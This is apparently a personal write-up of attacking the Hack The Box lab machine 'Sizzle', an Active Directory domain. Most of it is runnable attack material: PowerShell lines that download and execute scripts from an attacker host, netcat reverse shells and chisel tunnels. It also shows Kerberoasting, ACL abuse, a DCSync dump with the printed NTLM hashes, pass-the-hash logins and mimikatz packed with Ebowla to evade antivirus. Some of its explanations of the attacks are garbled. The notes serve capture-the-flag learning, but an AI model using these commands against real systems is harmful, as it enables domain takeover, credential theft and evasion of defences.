C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\Windows\System32\spool\drivers\color\MSBuildShell.csproj
```

```
PowerShell -Version 2 -ExecutionPolicy ByPass -command "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.49/Invoke-PowerShellTcp.ps1')"

PowerShell -Version 2 -ExecutionPolicy ByPass -command "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.49/Invoke-PowerShellTcp2.ps1')"
```



NC shell\

This is worse than winrm shell but better than the nishang shell. Well pivot from the nishang shell to nc.exe find a writeable directory. Then upload nc.exe threw smbclient cp it over the directory then run netcat.

```
.\nc.exe -e cmd.exe 10.10.14.49 1917
.\nc.exe -e cmd.exe 10.10.14.49 1916
```

going to define sizzle ports as 1917 and 1918

so there are four parts to setting this up one will be in the other well call out

first host a server, then on the target run the client and connect back. R:port is the target port the last is the connect backport. Now We run a server on the target that connects to last port. back on our host we connect with a client to the desirder port. should be accessible form our localhost now. 

```
./chisel server -p 8000 --reverse -v
.\chisel.exe client 10.10.14.49:8000 R:88:127.0.0.1:1337
.\chisel.exe server -p 1337 --socks5
./chisel client 127.0.0.1:88 socks
```

```
.\chisel.exe server -p 1337 --socks5
./chisel client 127.0.0.1:88 socks
```

GetUserSPNs.py

```
-request Domain to query if different than the fomain of the user. Allows for kerberoasting accross trusts. request 
-request-user Adminitrator
```


```

```

POWERVIEW

this will give the hash for mrlky. this was pretty cool finding the domain was tricking. You will find that in the nmap scans the second part is the user domain\users. i had also mixed up the forward & back lashes

not its the same thing but when i copy and paste from my test files it doesn't work but using tmux paste as a once liner will run this.

```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.49/powerview.ps1')
$amanda = ConvertTo-SecureString 'Football#7' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\mrlky', $amanda)
Invoke-Kerberoast -Credential $cred -Verbose -Domain HTB.LOCAL | fl
```



hashcat

```
.\hashcat64.exe -m 13100 -a 0 kerberoast.hashes cracked.txt rockyou.txt --force
```


Enumerating users

```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.49/powerview.ps1')
$amanda = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $amanda)
Get-DomainUser -Credential$cred -DomainController HTB.LOCAL | select samAccountName, logoncount, lastlogon
```



```
Adminisrtator
mrlky
amanda
```

add stuff

BLOODHONUD SHARPHOUND

sharphound collecting the information needed. I used powershell version. but you can also use th sharphound.exe --domaincontroller. im going to try and r


going to try and do what we did in reel and have amanda take owner of mrlky

```
Set-DomainObjectOwner -identity mrlky -OwnerIdentity amanda
Add-DomainObjectAcl -TargetIdentity mrlky -PrincipalIdentity amanda -Rights ResetPassword
```

So mrlky has first degree group memberships to users, remote management & domain users. 





Domain admins has access to administrator.



mrlky is linky to domain admin by general



We have something called GenericAll also known as Access Mask which grants complete control over a target object, including "control rights". WriteDacl & WriteOwner priviledges, as any specific rights granted.

Genericwrite 	 is a combination of right_read_control right_ds_write_property, and right_ws_write_property_extended. 

writeproperty	 with objecttype that doesn't contain a guid also means that the principal has the right to modify all properties. while this case is techincally not the equivalent of generticwrite, in practice its all the same.

i'm tired of paraphrasing

```
These generic rights can be abused with PowerView’s Set-DomainObject. The -Setparameter allows for field modification (-Set @{“property1”=”value1”;“property2”=”value2”}) while the -Clearparameter will clear  a  property’s  value.  Here’s  an  example  of  setting  a  target  user’s  servicePrincipalName, Kerberoasting the account, and resetting the servicePrincipalName:
```

```
Get-DomainUser Administrator | ConvertFrom-UACValue
```



Genericall group 

domain admins group has weak permissions but bloodhound already told us it does. Lets also get the distrguished name

CN=Domain Admins,CN=Users,DC=HTB,DC=LOCAL

```
 Get-NetGroup "domain admins"


objectsid              : S-1-5-21-2379389067-1826974543-3574127760-512
samaccounttype         : GROUP_OBJECT
instancetype           : 4
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=HTB,DC=LOCAL, CN=A
                         dministrators,CN=Builtin,DC=HTB,DC=LOCAL}
member                 : {CN=sizzler,CN=Users,DC=HTB,DC=LOCAL, CN=Administrator,CN=Users,DC=HTB,DC
                         =LOCAL}
whenchanged            : 7/12/2018 2:30:00 PM
name                   : Domain Admins
admincount             : 1
distinguishedname      : CN=Domain Admins,CN=Users,DC=HTB,DC=LOCAL
usncreated             : 12345
dscorepropagationdata  : {7/7/2018 5:28:35 PM, 7/2/2018 7:13:51 PM, 7/2/2018 6:58:37 PM, 1/1/1601
                         6:12:16 PM}
cn                     : Domain Admins
objectguid             : 6b7545ba-3b4d-4ef9-bb0d-6214ce94c1fd
whencreated            : 7/2/2018 6:58:36 PM
description            : Designated administrators of the domain
samaccountname         : Domain Admins
grouptype              : GLOBAL_SCOPE, SECURITY
objectcategory         : CN=Group,CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
iscriticalsystemobject : True
usnchanged             : 53447
objectclass            : {top, group}


```

hmmm back to blodhound appon further examination of first degree object controls i found a new vector. Getchanges thank 0xdf.



```
Get-NetForestDomain
Forest                  : HTB.LOCAL
DomainControllers       : {sizzle.HTB.LOCAL}
Children                : {}
DomainMode              :
Parent                  :
PdcRoleOwner            : sizzle.HTB.LOCAL
RidRoleOwner            : sizzle.HTB.LOCAL
InfrastructureRoleOwner : sizzle.HTB.LOCAL
Name                    : HTB.LOCAL

```

root

Before you can even get user you need to pivot from amanda to mrlky

figuring out away to pass the hash was trying. SmbMap worked fine, smbclient didn't do  so well & smbclient.py in impacket worked out. Actve directory is a file management system, that adds a layer of security to windows. Allowing users to access data across a corprate enviroment. The system stores all the user keys on the domain, when a new domain controller is added the domain controller will share the keys with the new domain controller. kerbroast attack impersonates a domain controller and sends a fake connetino pretending to be a new domain asking for an update.

Some tools i used to get to this point a couple different versions of powerview, Nishang Invoke, Invoke-dcsynv(didn't work very well might have been me.), & invoke-mimikatz.

GetChangesAll 	this is a type of write permission from what ive read this one can easily overloooked. Seeing this is bad. 

dcsync 	is an attack you can use secretsdump.py, powerview or mimikatz to exploit it takes advantage of getchangesall in this case will allow the attacker to impersonate a Domain Controler and Ask for user data =] its a feature.

Secretsdump.py 	This impersonates a dc being added to the domain and request all the keys. this is taking advantage of how active directory works. 

Secretsdump does not need to be tunnelled next time i might just run this  and make some guess on usernames.

```
python secretsdump.py -just-dc Administrator/mrlky\@10.10.10.103                                 
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:ab61df127961db5a61167dd3864e72f5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d                   

```

```
 secretsdump.py                                                       
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                                        
                                                                                                                         
usage: secretsdump.py [-h] [-debug] [-system SYSTEM] [-bootkey BOOTKEY]                                                  
                      [-security SECURITY] [-sam SAM] [-ntds NTDS]                                                       
                      [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE]                                                  
                      [-use-vss] [-exec-method [{smbexec,wmiexec,mmcexec}]]                                              
                      [-just-dc-user USERNAME] [-just-dc] [-just-dc-ntlm]                                                
                      [-pwd-last-set] [-user-status] [-history]                                                          
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]                                                            
                      [-aesKey hex key] [-dc-ip ip address]                                                              
                      [-target-ip ip address]                                                                            
                      target                                                                                             

```

smbclient.py

```
smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9$
67 10.10.10.103                                                                                                          
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                                        
Type help for list of commands                                                                     
# open 10.10.10.103                                                                                 
[*] SMBv3.0 dialect used                                                                           
# login_hash administrator aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267       
[*] USER Session Granted                                                                           
# shares                                                                                           
ADMIN$                                                                                             
C$                                                                                                 
CertEnroll                                                                                         
Department Shares                                                                                   
IPC$                                                                                               
# use c$                                                                                           
# cd users                                                                                         
# cd Administrators                                                                                 
[-] SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)                   
# cd administrator                                                                                 
# dir

```

```
vable domain name                                                                                                                                     [0/1707]
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes                                                 
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input                                                                           
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)                                                                          
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```


Powerview Stuff

As mentioned before i had two different version of powershelli believe impacket is the way to go but make sure to check methdos & parameters first.

I had initially thought i had genericall permisions which would allow me to change passwords for different user accounts. Those were transversitive permissions not direct but id sitll like to cover those attemps.

Powerview You can preform a dcsync attack but i wasnt successful. 

```
iex(New-Object Net.WebClient).downloadstring('http://10.10.14.49/powerview2.ps1')
```

```
$amanda = ConvertTo-SecureString 'Football#7' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\mrlky', $amanda)
Add-DomainObjectAcl -TargetIdentity Administrator -PrincipalIdentity mrlky -Rights DCsync -Credential $Cred -Verbose
Get-DomainObjectACL Administrator -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $amanda }
Add-DomainGroupMember -Identity 'Administrator' -Members 'mrlky' -Credential $cred
```

```
$mrlky = Get-DomainUser mrlky | Select-Object -ExpandProperty objectsid
Get-DomainObjectACL Administrator -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $mrlky}
Add-DomainObjectAcl -TargetIdentity Administrator -PrincipalIdentity mrlky -Rights DCsync -Verbose
Get-DomainObjectACL Administrator -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $amanda }
```

Edited

genetic.config please review 0xdf giddy write up on setting this up. we just need to change somethings and set the computername as sizzle. 

trying to get mimikatz to work pretty touch my object now is to encode mimikatz using ebowla. I ran file on the two verison of mimikatz i have aviable. ones a x86 binary the other is a x32. Ive been trying to compile the x86. spent all day today getting some other stuff to work . xD im not even going to go into the rabbit hole i went into but, ill be covering how to install & setup ebowla.py\

note: locate mimi*.exe find the x64 version then copy it into Ebowla

```
python ebowla.py mimikatz_x64.exe genetic.config                                        
[*] Using Symmetric encryption
[*] Payload length 927384
[*] Payload_type exepyth
[*] Using EXE payload template                                                                                            
[*] Used environment variables:
        [-] environment value used: computername, value used: sizzle                                                      
[!] Path string not used as pasrt of key
[!] External IP mask NOT used as part of key
[!] System time mask NOT used as part of key
[*] String used to source the encryption key: sizzle
[*] Applying 10000 sha512 hash iterations before encryption
[*] Encryption key: 292aac24504dfa3fb72ece428be091473c5f4cb28b29e1bd4c2f5a744842ef2b                                      
[*] Writing GO payload to: go_symmetric_mimikatz_x64.exe.go
```

```
./build_x64_go.sh output/go_symmetric_mimikatz_x64.exe.go mimikatebowx64.exe            
[*] Copy Files to tmp for building
[*] Building...
[*] Building complete
[*] Copy mimikatebowx64.exe to output
[*] Cleaning up
[*] Done
```

Now, copy over the files using smbclient. then transfer the files to a writeable directory. 

```
cp 'c:\Department Shares\Users\Public\*' c:\windows\system32\spool\drivers\color\
cp 'c:\Department Shares\Users\Public\*' c:\windows\system32\microsoft\crypto\rsa\machinekeys
```

Onces everything is setup you may encounter problems like mimikatz using 8000 lines blank. mimikatcs will lets you run commands so well take advantage of that before it closes. if you scroll up those 8000 lines well find our hashes.

```
.\mimikatebowx64.exe Mimi-Command '"lsadump::dcsync /user:Administrator"' 
```







